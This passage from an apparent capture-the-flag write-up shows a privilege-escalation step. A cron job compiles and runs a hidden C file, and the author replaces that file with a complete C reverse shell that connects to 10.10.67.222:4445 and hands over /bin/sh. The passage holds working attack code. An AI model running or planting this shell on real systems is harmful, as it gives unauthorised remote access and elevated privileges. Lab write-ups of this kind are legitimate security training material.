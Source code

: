* ```pspy64``` shows that the following command is run at an interval with the help of ```cron```:

  ```sh
  /bin/sh -c gcc /home/bobloblaw/Documents/.boring_file.c -o /home/bobloblaw/Documents/.also_boring/.still_boring && chmod +x /home/bobloblaw/Documents/.also_boring/.still_boring && /home/bobloblaw/Documents/.also_boring/.still_boring | tee /dev/pts/0 /dev/pts/1 /dev/pts/2 && rm /home/bobloblaw/Documents/.also_boring/.still_boring
  ```

* We can check for this in the reverse shell:

  ```sh
  ls -la /home/bobloblaw/Documents

  cat /home/bobloblaw/Documents/.boring_file.c
  # the program which is compiled

  ls -la /home/bobloblaw/Documents/.also_boring

  ls -la /home/bobloblaw/Documents/.also_boring/.still_boring

  /home/bobloblaw/Documents/.also_boring/.still_boring
  # this prints the message
  ```

* We can replace the original '.boring_file.c' with a reverse-shell written in C:

  ```c
  #include <stdio.h>
  #include <sys/socket.h>
  #include <sys/types.h>
  #include <stdlib.h>
  #include <unistd.h>
  #include <netinet/in.h>
  #include <arpa/inet.h>

  int main(void){
      int port = 4445;
      struct sockaddr_in revsockaddr;

      int sockt = socket(AF_INET, SOCK_STREAM, 0);
      revsockaddr.sin_family = AF_INET;       
      revsockaddr.sin_port = htons(port);
      revsockaddr.sin_addr.s_addr = inet_addr("10.10.67.222");

      connect(sockt, (struct sockaddr *) &revsockaddr, 
      sizeof(revsockaddr));
      dup2(sockt, 0);
      dup2(sockt, 1);
      dup2(sockt, 2);

      char * const argv[] = {"/bin/sh", NULL};
      execve("/bin/sh", argv, NULL);

      return 0;       
  }
  ```
